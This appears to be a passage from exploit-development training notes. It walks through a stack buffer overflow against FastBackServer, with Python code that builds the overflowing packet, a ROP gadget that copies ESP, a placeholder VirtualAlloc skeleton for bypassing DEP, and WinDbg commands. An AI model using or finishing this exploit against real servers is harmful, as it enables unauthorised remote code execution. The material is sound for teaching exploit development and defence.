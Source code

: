 	formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+va+eip+rop,0,0,0,0)
	buf += formatString
	
	# Checksum
	buf = pack(">i", len(buf)-4) + buf
	...
	
Once the proof of concept is executed, the network packet will trigger the buffer overflow and position the dummy values exactly before the 0x42424242 DWORD that overwrites EIP. We can verify this by restarting FastBackServer and attaching WinDbg.
	dd esp - 1C


Making ROP's Acquaintance

The easiest way of obtaining a stack address close to the dummy values is to use the value in ESP at the time of the access violation. We cannot modify the ESP register, since it must always point to the next gadget for ROP to function. Instead, we will copy it into a different register.

We'll have to be creative to get a copy of the ESP register. A gadget like "MOV EAX, ESP ; RET" would be ideal, but they typically do not exist as natural opcodes. In this case, we do some searching and find the following gadget.
	0x50501110: push esp ; push eax ; pop edi ; pop esi ; ret
	
First, it will push the content of ESP to the top of the stack. Next, the content of EAX is pushed to the top of the stack, thus moving the value pushed from ESP four bytes farther down the stack.

Next, the POP EDI instruction will pop the value from EAX into EDI and increase the stack pointer by four, effectively making it point to the value originally contained in ESP. Finally, the POP ESI will pop the value from ESP into ESI, performing the copy of the address we need.

...
# psCommandBuffer
va  = pack("<L", (0x45454545)) # dummy VirutalAlloc Address
va += pack("<L", (0x46464646)) # Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize 
va += pack("<L", (0x49494949)) # dummy flAllocationType 
va += pack("<L", (0x51515151)) # dummy flProtect 

offset = b"A" * (276 - len(va))
eip = pack("<L", (0x50501110)) # push esp ; push eax ; pop edi; pop esi ; ret
rop = b"C" * (0x400 - 276 - 4)

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+va+eip+rop,0,0,0,0)
buf += formatString

# Checksum
buf = pack(">i", len(buf)-4) + buf
...

Now put a breakpoint at the address of the gadget:
	bp 0x50501110
	g
